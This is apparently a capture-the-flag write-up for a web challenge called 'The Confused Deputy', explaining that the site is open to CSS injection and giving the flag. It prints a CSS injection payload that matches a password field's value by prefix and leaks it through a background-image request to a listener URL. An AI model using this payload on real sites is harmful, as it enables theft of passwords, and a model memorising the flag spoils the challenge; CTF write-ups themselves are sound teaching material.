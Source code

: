 # The Confused Deputy

Author: [roerohan](https://github.com/roerohan)

## Description

This website can be exploited with the help of CSS Injection.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Node.js

## Sources

```
Wow that's a pretty color! Don't you think?
```

## Exploit

Payload:
<br />

```
blue;} input[type="password"][value^="csictf"] {background-image: url('http://localhost:8000?csictf');
```

<br />

The flag is:

```
csictf{cssxss}
```